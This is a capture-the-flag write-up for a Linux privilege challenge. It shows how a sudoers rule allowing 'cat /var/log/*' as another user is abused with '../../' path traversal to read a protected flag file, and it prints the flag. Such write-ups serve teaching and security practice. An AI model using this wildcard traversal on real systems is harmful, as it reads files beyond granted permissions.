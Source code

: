 # Linux 5 – Super

## Challenge Description
This bot doesn’t look so important, it seems like he can do nothing… figure out how you can move on to the next user.

## Note
The Linux challenges are consecutive, starting from [part 1](../1%20-%20Lock%20and%20Key).

---
## Solution
First, we must log in to `bot5`, using the previous flag as the password, and then change directory to `bot5`'s home directory:
```
bot3@cybot01:~$ su bot5
Password: 
bot5@cybot01:/home/bot4$ cd ~
```

In the home directory, there is `flag.txt`. However, `bot5` does not have access to read the file; only `bot6` is allowed to. (I forgot to copy this part, but I used `ls -la` to see the permissions.)

Dang, this bot is almost as useless as I am. Luckily, we can use `sudo` to run things as other users.
```
$ sudo -u USERNAME
```

To see what we can do, we can use `sudo -ll`. The `-l` switch lists the current user's privileges, and `-ll` does the same but in a longer format.

```
bot5@cybot01:~$ sudo -ll
Matching Defaults entries for bot5 on cybot01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bot5 may run the following commands on cybot01:

Sudoers entry:
    RunAsUsers: bot6
    RunAsGroups: bot6
    Options: !authenticate
    Commands:
	/usr/bin/cat /var/log/*
```

We can see that we can run `/usr/bin/cat /var/log/*` as `bot6`.

Luckily for us, since they used a wildcard `*`, we can traverse the directories from `/var/log/` to reach our flag file:
```
bot5@cybot01:~$ sudo -u bot6 /usr/bin/cat /var/log/../../home/bot5/flag.txt 
CDDC21{b3w4r3sud03rz}
```

(Thanks a bunch to my teammate [@ThinkerPal](https://github.com/ThinkerPal/) who pointed out the `/../../` thing!)

### Flag:
```
CDDC21{b3w4r3sud03rz}
```

[< Part 4](../4%20-%20Line%20Inspection) | [Part 6 (by @ThinkerPal)](https://github.com/ThinkerPal/CTF-Writeups/tree/master/2021-02-CDDC/Linux%20Rules%20the%20World/6%20-%20Path%20to%20Win)
